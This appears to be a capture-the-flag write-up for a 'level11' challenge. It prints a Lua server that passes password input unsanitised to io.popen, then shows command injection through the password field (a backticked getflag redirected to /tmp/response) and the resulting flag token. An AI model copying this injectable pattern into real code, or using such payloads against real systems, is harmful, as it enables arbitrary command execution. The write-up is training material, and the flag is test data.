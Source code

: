First of all we can see we have an executable in .lua.
it seems to be a type of server and we can connect to it with the port 5151.
when we try to launch the executable we can se port is already in use so we try to connnect to it.

#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

Then using netcat we connect to the server:
nc 127.0.0.1 5151
we can see the real password is NotSoEasy by reversing the sha1 encryption f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
https://www.dcode.fr/sha1-hash

we first tried this:
nc 127.0.0.1 5151
Password: NotSoEasy
Erf nope..

su flag11
Password: 
su: Authentication failure

using this is not what we want.
then we can use this line:
  prog = io.popen("echo "..pass.." | sha1sum", "r")

popen have as prototype: io.popen(command, mode) opens a pipe to execute a command and returns a file handle.
the command is "echo "..pass.." | sha1sum", The variable pass holds a value that will be interpolated into the command,
.. is an operator for concatenate strings. So now we can manipulate pass to execute getflag.

we cannot execute getflag because we dont have permission to execute it: 
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

if we do ` getflag ` as password we cannot see the answer because of the pipe for shasum:
so we have to redirect output to a file to be sure to get the ouput of the command:

` getflag > /tmp/response `

then cat the file /tmp/reponse
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s